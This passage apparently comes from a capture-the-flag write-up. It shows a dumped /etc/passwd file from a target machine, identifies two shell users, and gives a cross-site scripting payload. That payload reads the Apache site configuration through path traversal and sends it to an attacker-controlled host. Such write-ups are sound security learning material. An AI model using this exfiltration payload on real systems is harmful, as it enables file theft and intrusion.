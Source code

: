 The decoded file contents:
```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
```

We see two users with a shell:
- albert
- david

### Further Enumeration

Used the same technique to retrieve Apache configuration files:
```markdown
# <img src="x" onerror="fetch('/messages.php?file=../../../../etc/apache2/sites-available/000-default.conf').then(r=>r.text()).then(d=>fetch('http://10.10.14.87:8181/log?data='+encodeURIComponent(d)))">
```
